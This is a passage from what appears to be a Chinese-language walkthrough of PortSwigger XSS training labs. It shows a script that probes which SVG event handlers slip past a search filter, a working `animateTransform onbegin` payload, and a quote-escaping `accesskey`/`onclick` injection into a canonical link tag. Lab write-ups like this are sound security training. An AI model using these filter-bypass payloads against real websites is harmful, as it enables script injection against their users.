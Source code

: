 ```js
  "onunhandledrejection",
  "onunload",
  "onwaiting(loop)",
  "onwebkitanimationend",
  "onwebkitanimationiteration",
  "onwebkitanimationstart",
  "onwebkitplaybacktargetavailabilitychanged",
  "onwebkittransitionend",
];
for (const onEvent of onEvents) {
  fetch(
    `${location.origin}/?search=${encodeURIComponent(`<svg ${onEvent}="alert(1)">`)}`,
  ).then((res) => {
    if (res.status === 200) console.log(onEvent);
  });
}
```

最終結果是 `onbegin`，完全沒用過，查一下 [MDN](https://developer.mozilla.org/en-US/docs/Web/API/SVGAnimationElement/beginEvent_event)

這題我只是單純卡在對 SVG 可用的 Elements 跟 onBegin 不熟，後來直接請 AI 給我 `onbegin` 的範例，最終測出


```html
<svg><animateTransform onbegin="alert(1)" attributeName="transform" dur="0.1s" /></svg>
```

## Lab: Reflected XSS in canonical link tag

| Dimension | Description                                                                                   |
| --------- | --------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-in-html-tag-attributes |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag     |

透過瀏覽器 F12 > Network > Doc 觀察 Response Body


```html
<link rel="canonical" href='https://0acf009b036572748111259b000f00d9.web-security-academy.net/'/>
```

記住，因為瀏覽器 parsing DOM 的機制，所以不能看 F12 > Element，一定要看 Response Body 原始傳輸的 HTML

我們可以嘗試注入單引號來跳脫，並且注意不要注入空白，因為在網址列會被 encode 成 `%20`，加上 attribute 之間其實也不一定要空白


```
?query='accesskey='x'onclick='alert(1)
```

最終會產生


```html
<link rel="canonical" href='https://0acf009b036572748111259b000f00d9.web-security-academy.net/?query='accesskey='x'onclick='alert(1)'/>
```
